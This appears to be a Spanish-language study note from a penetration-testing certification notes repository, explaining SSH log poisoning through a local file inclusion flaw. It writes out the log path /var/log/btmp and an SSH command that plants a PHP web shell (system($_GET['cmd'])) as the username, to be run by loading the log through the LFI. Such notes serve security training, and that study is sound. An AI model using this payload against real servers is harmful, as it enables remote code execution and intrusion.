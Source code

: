 De la misma manera que el log poisoning de apache, si disponeos de LFI, y tenemos permiso de lectura para ver los logs. 

Podríamos intentar hacer una conexión ssh (aún sin conocer la contraseña, da igual). Y esta conexión quedaría almacenada en el log. de manera que si inyectamos código php 'entre comillas simples' en el campo de usuario y luego consultamos el log desde la web, nos interpretaría el código.

# Fichero log
```
/var/log/btmp
```

# Conexión ssh envenenada

si en lugar de poner ```ssh usuario@ip```

ponemos: 
```
ssh '<?php system('$_GET["cmd"]'); ?>'@172.10.0.3
```

el log quedaría envenenado, y al consultar el log a través del LFI en el navegador, este código se vería interpretado.
<img src="https://raw.githubusercontent.com/glmbxecurity/eJPT2_eCCPT2_eWPT_Notes/main/images/logpssh1.png" /> 


